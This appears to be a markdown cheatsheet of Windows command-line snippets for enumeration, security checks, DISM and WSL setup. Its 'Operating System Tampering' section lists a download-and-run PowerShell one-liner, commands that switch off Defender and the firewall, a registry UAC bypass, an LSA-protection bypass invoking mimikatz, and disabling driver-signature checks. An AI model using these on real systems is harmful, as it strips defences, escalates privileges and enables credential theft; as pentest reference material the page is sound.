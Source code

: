 ```yaml
---
layout: post
title: Sysadmin CLI WIN
category: Sysadmin
parent: Sysadmin
grand_parent: Cheatsheets
modified_date: 2022-06-30
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* 1. [listing system config](#listingsystemconfig)
	* 1.1. [OS and KB config](#OSandKBconfig)
	* 1.2. [network config & file shares](#networkconfigfileshares)
	* 1.3. [users & groups](#usersgroups)
	* 1.4. [products, processes and services](#productsprocessesandservices)
* 2. [Security Checks](#SecurityChecks)
	* 2.1. [windows firewall status](#windowsfirewallstatus)
	* 2.2. [windows defender status](#windowsdefenderstatus)
* 3. [Operating System Tampering](#OperatingSystemTampering)
	* 3.1. [configure network ip address](#configurenetworkipaddress)
	* 3.2. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 3.3. [windows defender: disable](#windowsdefender:disable)
	* 3.4. [windows firewall: disable](#windowsfirewall:disable)
	* 3.5. [windows uac: bypass](#windowsuac:bypass)
	* 3.6. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 3.7. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 3.8. [SMBv1: enable](#SMBv1:enable)
* 4. [Operating System Hardening](#OperatingSystemHardening)
	* 4.1. [LLMNR: disable](#LLMNR:disable)
* 5. [Windows DISM](#WindowsDISM)
* 6. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='listingsystemconfig'></a>listing system config
###  1.1. <a name='OSandKBconfig'></a>OS and KB config
```powershell
# listing OS version
wmic os list brief
wmic os get MUILanguages

# listing KB wmi
wmic qfe list full /format:table

# listing KB ps
powershell -Command "systeminfo /FO CSV" | out-file C:\Windows\Temp\systeminfo.csv
import-csv C:\Windows\Temp\systeminfo.csv | ForEach-Object{$_."Correctif(s)"}
```

###  1.2. <a name='networkconfigfileshares'></a>network config & file shares
```powershell
# listing network hardware
wmic nic list brief
ipconfig /all

# listing network software 
wmic nicconfig where IPEnabled='true' get Caption,DefaultIPGateway,Description,DHCPEnabled,DHCPServer,IPAddress,IPSubnet,MACAddress
ipconfig /all
route -n
netstat -ano

# listing network shares
wmic netuse list brief
net use

wmic share
net share
```

###  1.3. <a name='usersgroups'></a>users & groups
```powershell
# listing local users
wmic netlogin list brief
net user
net localgroup
net localgroup Administrators
```

###  1.4. <a name='productsprocessesandservices'></a>products, processes and services
```powershell
# listing windows product
wmic PRODUCT get Description,InstallDate,InstallLocation,PackageCache,Vendor,Version /format:csv
# listing windows processes
wmic process get CSName,Description,ExecutablePath,ProcessId /format:csv
# listing windows services 
wmic service get Caption,Name,PathName,ServiceType,Started,StartMode,StartName /format:csv
```

# listing local users
##  2. <a name='SecurityChecks'></a>Security Checks

###  2.1. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
netsh firewall show portopening
```

###  2.2. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  3. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  3.1. <a name='configurenetworkipaddress'></a>configure network ip address
```batch
netsh
interface ip set address "connection name" static 192.168.1.1 255.255.255.0 192.168.1.254
```

###  3.2. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
#version 1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  3.3. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  3.4. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  3.5. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  3.6. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  3.7. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  3.8. <a name='SMBv1:enable'></a>SMBv1: enable
```powershell
# DISM 
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation

# win10 tampering: PS activate SMBv1 OptionalFeatures
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

##  4. <a name='OperatingSystemHardening'></a>Operating System Hardening
###  4.1. <a name='LLMNR:disable'></a>LLMNR: disable
```
REG ADD  “HKLM\Software\policies\Microsoft\Windows NT\DNSClient”
REG ADD  “HKLM\Software\policies\Microsoft\Windows NT\DNSClient” /v ”EnableMulticast” /t REG_DWORD /d “0” /f
```

##  5. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  6. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```